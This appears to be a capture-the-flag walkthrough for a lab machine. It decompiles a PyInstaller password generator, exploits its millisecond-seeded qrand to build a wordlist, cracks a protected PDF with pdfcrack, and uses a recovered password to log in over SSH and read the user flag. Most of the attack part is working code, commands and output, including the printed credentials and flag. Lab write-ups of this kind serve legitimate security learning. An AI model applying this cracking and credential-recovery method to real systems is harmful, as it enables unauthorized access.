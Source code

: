 1) There is a passwordGenerator under /home/steven, this appears to be a windows executable
2) There is also a png and a pdf file under /home/steven/.notes/
```
/home/steven/.notes/screenshot.png
/home/steven/.notes/notes.pdf
```
3)  The notes.pdf file is password protected, and the screenshot.png shows you what possible password complexity is used to generate the password.
4) Coming back to passwordGenerator. This is a windows 32 PE file, which is compiled using pyinstaller, to decompile it, use 
```
https://github.com/extremecoders-re/pyinstxtractor
```
5) Note that this tool is made for 3.7, so, to ensure things can be extracted correctly, you need to install python3.7
6) Then, install uncompyle6 to decompile the passwordGenerator.pyc file, it is suggested to create a virtualenv for python3.7 so that you can always revert when things didn’t work out
```
# install virtualenv and activate
python.exe -m pip install virtualenv
python.exe -m virtualenv env37
env37\Scripts\activate

# extract content
python pyinstxtractor.py passwordGenerator

# decompile
pip install uncompyle6
uncompyle6 passwordGenerator.pyc
```
7) Reading the code, it would seem that there is a 32^128 combinations of passwords, however, running the code on these lines shows that the idx will only be a limited number of values due to how QT implements the random number generator.
```python
qsrand(QTime.currentTime().msec())
password = ''
for i in range(length):
    idx = qrand() % len(charset)
```
8) Copying the `genPassword` code and modify it to make it work.
9) Then create a while loop to genreate passwords, the process will become extremely slow at around 1000 passwords.
```python
from PySide2.QtCore import *


def genPassword():
    length = 32
    char = 0
    if char == 0:
        charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
    else:
        if char == 1:
            charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
        else:
            if char == 2:
                charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890'
            else:
                pass
    try:
        qsrand(QTime.currentTime().msec())
        password = ''
        for i in range(length):
            idx = qrand() % len(charset)
            nchar = charset[idx]
            password += str(nchar)
    except:
        print('error')
    return password


def gen_possible_passes():
    passes = []
    try:
        while True:
            ps = genPassword()
            if ps not in passes:
                passes.append(ps)
                # print(ps)
                print(len(passes))
    except KeyboardInterrupt:
        with open('pass.txt', 'w') as ofile:
            for p in passes:
                ofile.write(p + '\n')


gen_possible_passes()
```
10) Then use it with pdfcrack, you should have your password.
```
> pdfcrack -f notes.pdf -w ~/share/passwordGenerator_extracted/pass.txt

PDF version 1.6
Security Handler: Standard
V: 2
R: 3
P: -1028
Length: 128
Encrypted Metadata: True
FileID: c19b3bb1183870f00d63a766a1f80e68
U: 4d57d29e7e0c562c9c6fa56491c4131900000000000000000000000000000000
O: cf30caf66ccc3eabfaf371623215bb8f004d7b8581d68691ca7b800345bc9a86
found user-password: 'YG7Q7RDzA+q&ke~MJ8!yRzoI^VQxSqSS'
```
11) Open up the pdf file, you should have ethan’s password:
```
Dear Steven,
As we discussed since I'm going on vacation you will be in charge of system maintenance. Please
ensure that the system is fully patched and up to date.
Here is my password: b@mPRNSVTjjLKId1T
System Administrator
Ethan
```

Username: ethan
Password: b@mPRNSVTjjLKId1T

12) I read the user.txt:
```
┌──(kali㉿kali)-[~]
└─$ ssh ethan@10.10.11.178
The authenticity of host '10.10.11.178 (10.10.11.178)' can't be established.
ED25519 key fingerprint is SHA256:VPuvg/AZNowpwUzTOus1pgqNpIF6GUBKdaSs9D9K1po.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.178' (ED25519) to the list of known hosts.
ethan@10.10.11.178's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 22 Dec 2022 08:46:07 PM UTC

  System load:  0.03              Processes:             230
  Usage of /:   66.4% of 4.76GB   Users logged in:       0
  Memory usage: 19%               IPv4 address for eth0: 10.10.11.178
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Dec 22 14:17:54 2022 from 10.10.16.17
ethan@vessel:~$ ls -all
total 40
drwx------ 5 ethan ethan 4096 Dec 22 15:02 .
drwxr-xr-x 4 root  root  4096 Aug 11 14:43 ..
lrwxrwxrwx 1 root  root     9 Mar 13  2022 .bash_history -> /dev/null
-rw------- 1 ethan ethan  220 Feb 25  2020 .bash_logout
-rw------- 1 ethan ethan 3771 Feb 25  2020 .bashrc
drwx------ 2 ethan ethan 4096 Aug 11 14:43 .cache
drwx------ 4 ethan ethan 4096 Aug 11 14:43 .gnupg
drwxrwxr-x 3 ethan ethan 4096 Aug 11 14:43 .local
-rw------- 1 ethan ethan  807 Feb 25  2020 .profile
-rw-r----- 1 root  ethan   33 Dec 22 13:35 user.txt
-rw------- 1 ethan ethan 1160 Dec 22 15:02 .viminfo
ethan@vessel:~$ cat user.txt
35fb3538974fec84bb878568bdf98c73
```